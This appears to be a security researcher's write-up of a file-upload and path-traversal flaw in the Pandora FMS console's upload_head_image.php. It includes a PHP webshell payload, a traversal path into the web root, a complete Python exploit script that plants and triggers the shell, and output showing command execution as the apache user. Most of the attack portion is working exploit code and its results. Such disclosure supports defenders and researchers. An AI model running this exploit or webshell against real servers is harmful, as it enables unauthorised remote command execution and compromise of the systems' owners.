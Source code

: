 We supply the HTTP GET parameter `up` [1], can then decide if we supply our input base64 encoded or not, which is what we do [2].

Then it gets all the headers and uses our supplied input from [2] for the file content written to and the filepath is created with another user supplied value the `UP-FILENAME` header. 


So we set the content we want to write to a simple webshell `<?php system($_REQUESt['c']); ?>` and select a path where we want our file to be created, I chose

`../../../../../../../../../../var/www/html/pandora_console/extensions/testfile.php`

Then a simple GET request to execute `id`:
`http://192.168.178.88/pandora_console/extensions/testfile.php?c=id`
->
```
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0 
```

```python3
import requests, sys

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <hostname/ip>")
    sys.exit(1)

url = f"http://{sys.argv[1]}/pandora_console/enterprise/meta/general/upload_head_image.php?up=true"

raw_post_data = """<?php system($_REQUEST['c']); ?>"""

headers = {"UP-FILENAME": "../../../../../../../../../../var/www/html/pandora_console/extensions/testfile.php"}

r = requests.post(url, raw_post_data, headers=headers, verify=False)
print("[*] Uploading file...")
if r.status_code == 200:
    print("[+] Upload succeeded!")
    print("[*] Triggering the `id` command")
    url_shell = f"http://{sys.argv[1]}/pandora_console/extensions/testfile.php?c=id"
    r = requests.get(url_shell)
    print(f"[*] Response:\n{r.text}")
    print(f"[*] Cleaning up to not leave the webshell lying around...")
    raw_post_data = ""
    r = requests.post(url, raw_post_data, headers=headers)
    if r.status_code == 200:
        print("[+] Cleanup worked")
    else:
        print("[-] Error while cleaning up, the shell is probably still there...")

else:
    print("[-] Exploit failed. Error while uploading our shell...")

```

And here again a successful execution:
```bash
u@bzt:~/pandoraFMS$ python3 sploit2.py 192.168.178.88
[*] Uploading file...
[+] Upload succeeded!
[*] Triggering the `id` command
[*] Response:
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

[*] Cleaning up to not leave the webshell lying around...
[+] Cleanup worked
```
